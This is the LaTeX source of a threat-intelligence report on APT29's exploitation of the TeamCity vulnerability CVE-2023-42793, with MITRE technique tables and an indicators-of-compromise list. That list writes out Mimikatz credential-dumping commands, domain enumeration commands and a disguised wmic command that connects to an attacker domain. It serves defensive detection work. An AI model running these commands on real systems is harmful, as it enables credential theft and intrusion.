% Inicio Portada Sección
\ClearShipoutPictureBG
\mbox{}
\AddToShipoutPictureBG*{
\includegraphics[width=\paperwidth,height=\paperheight]{fondos/fondo_secciones.png}}
\begin{textblock*}{15cm}(2cm,14cm)
    \huge{\textcolor{letras_blancas}{\textbf{Report}}}
\end{textblock*}
\newpage
% Fin Portada Sección
\newlength\mylength
\newcolumntype{C}[1]{>{\centering\arraybackslash}p{#1}}
%\newcommand{\hash}[1]{{\ttfamily\seqsplit{#1}}}

\renewcommand{\seqinsert}{\ifmmode\allowbreak\else\-\fi}
\newcommand{\wrap}[1]{\seqinsert{\seqsplit{#1}}}

% ------------------------------------- CONTENIDO ------------------------------------
\AddToShipoutPictureBG{
\includegraphics[width=\paperwidth,height=\paperheight]{fondos/fondo_normal.jpg}}

\section{Description}

Cybersecurity agencies at the forefront of safeguarding digital infrastructures, including the Federal Bureau of Investigation (FBI), the U.S. Cybersecurity and Infrastructure Security Agency (CISA), the U.S. National Security Agency (NSA), the Polish Military Counterintelligence Service (SKW), CERT Polska (CERT.PL), and the United Kingdom's National Cyber Security Centre (NCSC), have issued a joint assessment indicating an alarming cyber threat. This assessment centers around the Russian Foreign Intelligence Service (SVR, APT29) and their active exploitation of a critical software vulnerability known as CVE-2023-42793, a vulnerability that has been ruthlessly leveraged since September 2023. The SVR's primary focus in this campaign has been on infiltrating servers hosting JetBrains TeamCity software. JetBrains TeamCity is an indispensable tool for software developers, facilitating the management and automation of crucial software development processes, including compilation, building, testing, and release management.\\\\The severity of this threat lies in its potential consequences. If malicious actors exploit this vulnerability successfully, they could gain unrestricted access to critical assets such as source code repositories and signing certificates. Moreover, they could manipulate software compilation and deployment processes, potentially weaponizing this access for supply chain attacks, causing widespread damage. It's worth noting that the SVR had previously used similar tactics in the SolarWinds breach of 2020. However, in this case, their approach appears opportunistic, with a limited number of victims identified. Nonetheless, the SVR's actions post-access include privilege escalation, deploying additional backdoors, and employing various techniques for long-term network access. \\\\\href{https://www.cisa.gov/sites/default/files/2023-12/aa23-347a-russian-foreign-intelligence-service-svr-exploiting-jetbrains-teamcity-cve-globally_0.pdf}{[Original report]}

\section{APT Groups}

APT Groups associated with the provided intelligence:

\begin{itemize}\item \textbf{APT29}\begin{itemize}
\item \textbf{Description}: [APT29](https://attack.mitre.org/groups/G0016) is threat group that has been attributed to Russia's Foreign Intelligence Service (SVR). They have operated since at least 2008, often targeting government networks in Europe and NATO member countries, research institutes, and think tanks. [APT29](https://attack.mitre.org/groups/G0016) reportedly compromised the Democratic National Committee starting in the summer of 2015.

In April 2021, the US and UK governments attributed the [SolarWinds Compromise](https://attack.mitre.org/campaigns/C0024) to the SVR; public statements included citations to [APT29](https://attack.mitre.org/groups/G0016), Cozy Bear, and The Dukes. Industry reporting also referred to the actors involved in this campaign as UNC2452, NOBELIUM, StellarParticle, Dark Halo, and SolarStorm.
\item \textbf{Alias}: APT29, IRON RITUAL, IRON HEMLOCK, NobleBaron, Dark Halo, StellarParticle, NOBELIUM, UNC2452, YTTRIUM, The Dukes, Cozy Bear, CozyDuke, SolarStorm, Blue Kitsune, UNC3524
\end{itemize}
\end{itemize}

\section{MITRE tactics, techniques and procedures}

\begin{center}
\begin{longtable}[H]{|C{0.3\textwidth}|C{0.3\textwidth}|C{0.3\textwidth}|}
\hline \textbf{Tactics} & \textbf{Techniques} & \textbf{Sub-techniques} \\ \hline
TA0001 Initial Access & T1190 Exploit Public-Facing Application & No sub-techniques \\ \hline
TA0002 Execution & T1047 Windows Management Instrumentation & No sub-techniques \\ \hline
TA0002 Execution & T1059 Command and Scripting Interpreter & T1059.001 PowerShell \\ \hline
TA0002 Execution & T1059 Command and Scripting Interpreter & T1059.003 Windows Command Shell \\ \hline
TA0002 Execution & T1203 Exploitation for Client Execution & No sub-techniques \\ \hline
TA0003 Persistence & T1053 Scheduled Task/Job & T1053.005 Scheduled Task \\ \hline
TA0003 Persistence & T1505 Server Software Component & T1505.001 SQL Stored Procedures \\ \hline
TA0003 Persistence & T1547 Boot or Logon Autostart Execution & T1547.006 Kernel Modules and Extensions \\ \hline
TA0003 Persistence & T1574 Hijack Execution Flow & T1574.002 DLL Side-Loading \\ \hline
TA0004 Privilege Escalation & T1068 Exploitation for Privilege Escalation & No sub-techniques \\ \hline
TA0004 Privilege Escalation & T1098 Account Manipulation & T1098.001 Additional Cloud Credentials \\ \hline
TA0005 Defense Evasion & T1027 Obfuscated Files or Information & T1027.001 Binary Padding \\ \hline
TA0005 Defense Evasion & T1036 Masquerading & T1036.005 Match Legitimate Name or Location \\ \hline
TA0005 Defense Evasion & T1055 Process Injection & T1055.012 Process Hollowing \\ \hline
TA0005 Defense Evasion & T1562 Impair Defenses & T1562.001 Disable or Modify Tools \\ \hline
TA0005 Defense Evasion & T1564 Hide Artifacts & T1564.001 Hidden Files and Directories \\ \hline
TA0006 Credential Access & T1003 OS Credential Dumping & T1003.001 LSASS Memory \\ \hline
TA0006 Credential Access & T1003 OS Credential Dumping & T1003.002 Security Account Manager \\ \hline
TA0006 Credential Access & T1555 Credentials from Password Stores & T1555.003 Credentials from Web Browsers \\ \hline
TA0006 Credential Access & T1558 Steal or Forge Kerberos Tickets & T1558.001 Golden Ticket \\ \hline
TA0007 Discovery & T1033 System Owner/User Discovery & No sub-techniques \\ \hline
TA0007 Discovery & T1046 Network Service Discovery & No sub-techniques \\ \hline
TA0007 Discovery & T1057 Process Discovery & No sub-techniques \\ \hline
TA0008 Lateral Movement & T1210 Exploitation of Remote Services & No sub-techniques \\ \hline
TA0010 Exfiltration & T1020 Automated Exfiltration & T1020.001 Traffic Duplication \\ \hline
TA0010 Exfiltration & T1041 Exfiltration Over C2 Channel & No sub-techniques \\ \hline
TA0010 Exfiltration & T1567 Exfiltration Over Web Service & T1567.002 Exfiltration to Cloud Storage \\ \hline
TA0011 Command and Control & T1568 Dynamic Resolution & T1568.001 Fast Flux DNS \\ \hline
TA0011 Command and Control & T1572 Protocol Tunneling & No sub-techniques \\ \hline
TA0040 Impact & T1565 Data Manipulation & T1565.001 Stored Data Manipulation \\ \hline
TA0043 Reconnaissance & T1590 Gather Victim Network Information & T1590.004 Network Topology \\ \hline
TA0043 Reconnaissance & T1590 Gather Victim Network Information & T1590.004 Network Topology \\ \hline
TA0043 Reconnaissance & T1592 Gather Victim Host Information & T1592.002 Software \\ \hline
\caption{TTPs associated with the intelligence}
\end{longtable}
\end{center}
\normalsize

\section{Indicators of compromise}

\begin{longtable}[H]{|C{0.15\textwidth}|C{0.85\textwidth}|}
\hline \textbf{Type} & \textbf{IoC} \\ \hline
 Command & whoami\\ \hline
 Command & nltest\\ \hline
 Command & wmic /node\\ \hline
 Command & wmic process\\ \hline
 Command & powershell ([adsisearcher]"((samaccountname=<redacted>))").Findall().Properties\\ \hline
 Command & powershell Get-WmiObject -Class Win32\_Service -Computername\\ \hline
 Command & powershell Get-WindowsDriver -Online -All\\ \hline
 EXE & ntoskrnl.exe\\ \hline
 Registry & HKEY\_LOCAL\_MACHINE\textbackslash{}SYSTEM\textbackslash{}CurrentControlSet\textbackslash{}Control\textbackslash{}Lsa\\ \hline
 Command & privilege::debug\\ \hline
 Command & lsadump::cache\\ \hline
 Command & lsadump::secrets\\ \hline
 Command & lsadump::sam\\ \hline
 Command & sekurlsa::logonpasswords\\ \hline
 Registry & HKLM\textbackslash{}SYSTEM\\ \hline
 Registry & HKLM\textbackslash{}SAM\\ \hline
 Registry & HKLM\textbackslash{}SECURITY\\ \hline
 Command & powershell Compress-Archive -Path C:\textbackslash{}Windows\textbackslash{}temp\textbackslash{}1\textbackslash{} -DestinationPath C:\textbackslash{}Windows\textbackslash{}temp\textbackslash{}s.zip -Force \& del C:\textbackslash{}Windows\textbackslash{}temp\textbackslash{}1 /F /Q\\ \hline
 Command & Get-NetGroup\\ \hline
 Command & Get-NetUser -UACFilter NOT\_ACCOUNTDISABLE | select samaccountname, description, pwdlastset, logoncount, badpwdcount"\\ \hline
 Command & Get-NetDiDomain\\ \hline
 Command & Get-AdUser\\ \hline
 Command & Get-DomainUser -UserName\\ \hline
 Command & Get-NetUser -PreauthNotRequire\\ \hline
 Command & Get-NetComputer | select samaccountname\\ \hline
 Command & Get-NetUser -SPN | select serviceprincipalname\\ \hline
 EXE & rr.exe\\ \hline
 IP & 65.20.97.203\\ \hline
 Domain & Poetpages.com\\ \hline
 Command & wmic process call create "C:\textbackslash{}Program Files\textbackslash{}Windows Defender Advanced Threat Protection\textbackslash{}Sense.exe -connect poetpages.com -pass M554-0sddsf2@34232fsl45t31"\\ \hline
 DLL & AclNumsInvertHost.dll\\ \hline
 Hash & \wrap{01B5F7094DE0B2C6F8E28AA9A2DED678C166D615530E595621E692A9C0240732}\\ \hline
 Hash & \wrap{34C8F155601A3948DDB0D60B582CFE87DE970D443CC0E05DF48B1A1AD2E42B5E}\\ \hline
 Hash & \wrap{620D2BF14FE345EEF618FDD1DAC242B3A0BB65CCB75699FE00F7C671F2C1D869}\\ \hline
 Hash & \wrap{773F0102720AF2957859D6930CD09693824D87DB705B3303CEF9EE794375CE13}\\ \hline
 Hash & \wrap{7B666B978DBBE7C032CEF19A90993E8E4922B743EE839632BFA6D99314EA6C53}\\ \hline
 Hash & \wrap{8AFB71B7CE511B0BCE642F46D6FC5DD79FAD86A58223061B684313966EFEF9C7}\\ \hline
 Hash & \wrap{971F0CED6C42DD2B6E3EA3E6C54D0081CF9B06E79A38C2EDE3A2C5228C27A6DC}\\ \hline
 Hash & \wrap{CB83E5CB264161C28DE76A44D0EDB450745E773D24BEC5869D85F69633E44DCF}\\ \hline
 Hash & \wrap{CD3584D61C2724F927553770924149BB51811742A461146B15B34A26C92CAD43}\\ \hline
 Hash & \wrap{EBE231C90FAD02590FC56D5840ACC63B90312B0E2FEE7DA3C7606027ED92600E}\\ \hline
 Hash & \wrap{F1B40E6E5A7CBC22F7A0BD34607B13E7E3493B8AAD7431C47F1366F0256E23EB}\\ \hline
 Hash & \wrap{C7B01242D2E15C3DA0F45B8ADEC4E6913E534849CDE16A2A6C480045E03FBEE4}\\ \hline
 Hash & \wrap{4BF1915785D7C6E0987EB9C15857F7AC67DC365177A1707B14822131D43A6166}\\ \hline
 Hash & \wrap{18101518EAE3EEC6EBE453DE4C4C380160774D7C3ED5C79E1813013AC1BB0B93}\\ \hline
 Hash & \wrap{19F1EF66E449CF2A2B0283DBB756850CCA396114286E1485E35E6C672C9C3641}\\ \hline
 Hash & \wrap{1E74CF0223D57FD846E171F4A58790280D4593DF1F23132044076560A5455FF8}\\ \hline
 Hash & \wrap{219FB90D2E88A2197A9E08B0E7811E2E0BD23D59233287587CCC4642C2CF3D67}\\ \hline
 Hash & \wrap{B53E27C79EED8531B1E05827ACE2362603FB9F77F53CEE2E34940D570217CBF7}\\ \hline
 Hash & \wrap{C37C109171F32456BBE57B8676CC533091E387E6BA733FBAA01175C43CFB6EBD}\\ \hline
 Hash & \wrap{C40A8006A7B1F10B1B42FDD8D6D0F434BE503FB3400FB948AC9AB8DDFA5B78A0}\\ \hline
 Hash & \wrap{F6194121E1540C3553273709127DFA1DAAB96B0ACFAB6E92548BFB4059913C69}\\ \hline
 Hash & \wrap{D724728344FCF3812A0664A80270F7B4980B82342449A8C5A2FA510E10600443}\\ \hline
 Hash & \wrap{4EE70128C70D646C5C2A9A17AD05949CB1FBF1043E9D671998812B2DCE75CF0F}\\ \hline
 Hash & \wrap{950ADBAF66AB214DE837E6F1C00921C501746616A882EA8C42F1BAD5F9B6EFF4}\\ \hline
 Hash & \wrap{CB83E5CB264161C28DE76A44D0EDB450745E773D24BEC5869D85F69633E44DCF}\\ \hline
 IP & 65.21.51.58\\ \hline
 IP & 103.76.128.34\\ \hline
 Domain & matclick.com\\ \hline\caption{IoCs associated with the intelligence}
\end{longtable}
\normalsize

\section{MITRE Kill Chain}

\begin{figure}[H]
\centering

\includegraphics[width=1\linewidth]{images/output.png}
\caption{MITRE Kill Chain}
\label{fig:enter-label}
\end{figure}

\clearpage
% ------------------------------------- FIN CONTENIDO --------------------------------
